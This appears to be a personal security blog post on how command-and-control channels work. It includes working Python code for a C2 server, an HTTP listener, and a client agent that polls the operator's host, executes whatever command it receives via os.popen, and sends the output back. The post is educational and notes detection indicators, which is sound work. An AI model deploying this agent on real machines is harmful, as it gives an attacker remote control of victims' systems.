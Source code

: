 ```yaml
---
layout: post
title: Creating a Barebones C2 Channel
date: 2021-06-11 12:00:00 +0200
img: c2.jpg # Add image post (optional)
description: Hi all, My name is Kyhle Öhlinger and this blog post forms part of my personal blog. If you enjoy any of the posts, feel free to reach out and let me know :) 
tags: [InfoSec, Technical]
---
```


The phrase "Command and Control (C2)", which has its origins in military terminology, refers to the approach an attacker uses to take command of and exercise control over a compromised system. In the world of malware, C2 is typically used to execute arbitrary commands on a victim system, report the status of a compromise to an attacker, or exfiltrate information. C2 channels may be used to commandeer an individual host or control a botnet of millions of machines.

Attackers use a variety of techniques and protocols for command and control. Internet Relay Chat (IRC), which facilitates group messaging via a client-server model, was a common C2 protocol for many years. However, IRC is rarely used in business environments, so it is easy for defenders to detect this potentially malicious traffic. As a result, attackers consider alternative protocols that allow them to better hide in plain sight. HTTP is an obvious choice because of its prevalence across the corporate enterprise. Additionally, with the introduction of various communication platforms within organizations, an uptick in C2 channels using Teams and Slack has been identified.

There are a lot of free open source post-exploitation toolsets that provide this kind of capability, like Metasploit, Empire, Covenant and many others. This post could be helpful for blue teams or penetration testers who want to become more familiar with how command and control servers function at the most basic level.

## Basic Requirements

A basic C2 should consist of; a server, an agent, and a listener. A basic C2 server should be able to:
* Start and stop listeners
* Generate payloads
* Handle agents and task them

An agent should be able to:
* Download and execute tasks
* Send results
* Persist

A listener should be able to:
* Handle multiple agents
* Host files
* Ensure that communication is encrypted


## Basic Flow
There are lots of different ways you can approach this, so I will just cover one approach

1. Client makes an initial callout (HTTP/S) to the C2 server for instructions
2. Server has no tasks, but keeps requests open
3. Operator creates a task and sends to the client
5. Client executes the instructions and sends the results to the C2 server 
6. Server displays results to the operator

The benefit of this method is that the volume of requests could be super low and there won't be a spike in traffic during any stage of operation since the connection is alive. Of course there are lots of other steps you can incorporate above, but these are what I would say are the basics for client-server C2 communications.

## The Code

Now that you have a very high-level understanding of what a C2 channel is, it's time to get into a very basic Python C2 program. As described above, the C2 will consist of: a server, an agent, a listener, and a client.

### C2 Server
This is going to be responsible for maintaining the command variables, starting terminals, and starting listeners.
```python
# main.py
from threading import *
from terminal import *
import listener
cmd = ''

if __name__ == '__main__':
    # Terminal Functionality
    terminal = Terminal()

    # Create Agent Threads
    terminal_thread = Thread(target = terminal.cmdloop,)
    terminal_thread.start()

    # Web Functionality
    print("Starting Webserver...")
    listener.run()
```

### Terminal
This will take the commands and update the main commands.
```python
# terminal.py

from cmd import Cmd
import main

class Terminal (Cmd):
    # Modify the prompt to be whatever you like
    prompt = '$ > '

    def default(self,args):
        main.cmd = args
```

### Listener
Simple web server and hands out operations. Additionally, this will be responsible for printing output to the terminal.

```python
# listener.py
from http.server import HTTPServer, BaseHTTPRequestHandler
from socketserver import ThreadingMixIn
from time import sleep
from urllib.parse import urlparse, unquote_plus, parse_qs

import threading
import main

# Global Variables
IP_Address = ''
Port = 80
Sleep_Timer = .25

class Handler(BaseHTTPRequestHandler):
    def do_GET(self):
        try:
            # Print IP address of host connecting to your C2 - Remove if too noisy
            print("Connection received from: " + self.client_address[0])

            # A basic call would look like: curl http:ip/output?q=something
            # Change 'output' and 'q' as required
            if 'output' in self.path:
                # Handle Output
                request_url = urlparse(self.path)
                request_param = parse_qs(request_url.query)
                print("")
                for param in request_param['q']:
                    print(param.strip())
                
                self.send_response(200)
                self.end_headers()
                self.wfile.write(main.cmd.encode())
                return           
        except:
            # Do nothing
            None

        while main.cmd == '':
            sleep(Sleep_Timer)

        self.send_response(200)
        self.end_headers()
        self.wfile.write(main.cmd.encode())
        main.cmd = ''

    # Remove Request Default Information
    def log_message(self, format, *args):
        return

class ThreadingSimpleServer(ThreadingMixIn, HTTPServer):
    pass

def run():
    http = ThreadingSimpleServer( (IP_Address, Port), Handler)
    http.serve_forever()

```

### Client
This will be the "payload" / web cradle that is delivered to the host that you want to exploit. It will need to be run on the target machine, and from there, you will be able to run commands through `main.py` on your host and receive feedback through the C2 channel.

```python
# client.py
import requests
import os
import warnings
warnings.filterwarnings("ignore", category=RuntimeWarning) 

from time import sleep

# Global Variables
IP_Address = ''
Sleep_Timer = .25

while True:
    r = requests.get("http://" + IP_Address)
    output = os.popen(r.text, 'r', 1)
    payload = { 'q': output }

    # Preferrable to change to POST to remove likelihood of detection and limit length being exceeded
    requests.get("http://" + IP_Address + "/output", params = payload)
    sleep(Sleep_Timer)
```

As a final step, you will need to run `sudo python3 main.py` on your host to start the C2 server and `python3 client.py` on the target machine in order to establish the connection.

## Conclusion

This post was meant to be a starting point for others who are looking to learn more about C2. The basic channel described in this post wouldn't be great for penetration testing purposes and since the channel used was HTTP using GET methods, it would be very easy to view the commands issued to and from the agents. Remember, any identified C2 channels serve as helpful indicators of compromise (IoCs) that can be used to detect other instances of the same or similar malware. IoCs related to C2 include domain names, IP addresses, protocols, and even patterns of bytes seen in network communications, which could represent commands or encoded data.

I hope you had fun reading this post (and potentially creating your own C2). As always, if you have any questions or recommendations, feel free to reach out!